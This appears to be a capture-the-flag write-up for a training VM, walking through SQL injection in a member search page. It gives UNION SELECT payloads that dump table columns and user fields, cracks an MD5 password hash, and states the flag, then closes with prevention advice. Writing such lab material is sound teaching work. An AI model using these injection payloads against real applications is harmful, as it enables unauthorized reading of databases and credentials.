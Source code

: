 # SQL Injection - Members Search

SQL injection is a type of injection attack. Injection attacks occur when maliciously crafted inputs are submitted by an attacker, causing an application to perform an unintended action.


## Exploit

Go to page:

{VM_IP}/index.php?page=member

We're going to be doing the same thing here as we did in the SQL image search injection. 
Insert the following commands into the image search bar:


### Test if vulnerable to SQL Injection

```1 OR 1=1```

... we get all the results because every row is considered true.


### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here we find:

* First name: users,
Surname : user_id
* First name: users,
Surname : first_name
* First name: users,
Surname : last_name
* First name: users,
Surname : town
* First name: users,
Surname : country
* First name: users,
Surname : planet
* First name: users,
Surname : Commentaire
* First name: users,
Surname : countersign


### Look at the comment below each user

```1 OR 1=1 UNION SELECT first_name, commentaire FROM users```

Here we find:

* First name: Flag,
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


### Find the countersign

```1 OR 1=1 UNION SELECT first_name, countersign FROM users```

* First name: Flag,
Surname : 5ff9d0165b4f92b14994e5c685cdce28

[md5 decrypt](https://md5decrypt.net)(5ff9d0165b4f92b14994e5c685cdce28) = FortyTwo
[sha256 encrypt](https://md5decrypt.net/Sha256)(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

flag = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Use

A successful SQL injection attack can:
- read sensitive data from the database, 
- modify database data (insert/update/delete), 
- execute administration operations on the database (such as shutdown the DBMS), 
- recover the content of a given file existing on the DBMS file system or write files into the file system, 
- in some cases, issue commands to the operating system.


## Prevention

- You should always use parameterized statements where available, 
they are your number one protection against SQL injection.
- [Here](https://www.hacksplaining.com/prevention/sql-injection#code-samples) are some code samples in various languages.
- Principle of Least Privilege: applications should ensure that each process or software component can access and affect only the resources it needs. 
Apply “levels of clearance” as appropriate.
